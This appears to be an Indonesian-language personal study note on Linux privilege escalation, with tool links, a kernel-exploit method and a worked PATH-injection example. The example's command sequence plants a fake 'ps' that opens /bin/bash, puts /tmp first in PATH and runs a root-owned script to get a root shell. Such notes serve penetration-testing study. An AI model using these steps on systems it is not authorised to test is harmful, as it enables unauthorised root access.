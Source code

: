 # Usefool Tools and links
Cek Priv Esc
https://github.com/sleventyeleven/linuxprivchecker

Kalau stuck bisa kesini
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# Kernel Exploit
Intinya nyari apakah versi kernel vuln. Cara ceknya
`uname -a`
Terus cari exploitnya -> Compile -> Run -> Boom

# Checklist
![[linux_privesc.jpg]]

12. LD_PRELOAD
13. PATH INJECTION

# Path Injection
Path injection terjadi karena pemanggilan binary dengan akses root yang tidak menggunakan full path. Contoh pemangilan yang benar
```
/usr/local/bin/nmap -sV 192.168.1.1
```

Contoh pemanggilan yang salah
```
nmap -sV 192.168.1.1
```
Kenapa kok bisa salah? karena hal ini bisa menjadi celah PATH injection. 

Linux menggunakan PATH untuk memanggil aplikasi tanpa menulis full path. Sama seperti Environment variable di windows. Namun ketika aplikasi ini dipanggil tanpa full path dengan akses root, maka kita bisa melakukan injection agar aplikasi yang dipanggil pertama kali di eksekusi pada direktori yang kita inginkan. 

```
cd /tmp
echo "/bin/bash" > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/raj/script
./shell
whoami
```

Ya jadi contohnya diatas, kita menambahkan $PATH direktori `/tmp` dimana diletakkan di awal, sehingga aplikasi yang tanpa full path tadi akan mencari pertama kali ke folder `tmp`



